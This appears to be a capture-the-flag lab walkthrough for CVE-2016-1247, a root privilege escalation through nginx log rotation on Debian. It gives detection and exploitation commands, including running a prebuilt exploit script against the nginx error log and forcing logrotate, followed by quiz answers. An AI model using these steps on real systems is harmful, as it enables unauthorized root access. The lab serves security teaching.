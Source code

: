 **Detection**

Linux VM

1. In command prompt type: 
   
```
dpkg -l | grep nginx
```

2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

**Exploitation**

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: **su root**

2. The root password is 
   
```
password123
```

3. Once escalated to root, in command prompt type: 
   
```
su -l www-data
```

4. In command prompt type: 

```
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
```

5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: 
   
```
su root
```

2. The root password is 
   
```
password123
```

3. As root, type the following: 
   
```
invoke-rc.d nginx rotate >/dev/null 2>&1
```

4. Switch back to the previous terminal.

![[Pasted image 20240601221753.png]]


Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.

2. In command prompt type: 
   
```
id
```

![[Pasted image 20240601221835.png]]


Answer the questions below

| Question                                               | Answer        |
| ------------------------------------------------------ | ------------- |
| What CVE is being exploited in this task?              | CVE-2016-1247 |
| What binary is SUID enabled and assists in the attack? | sudo          |
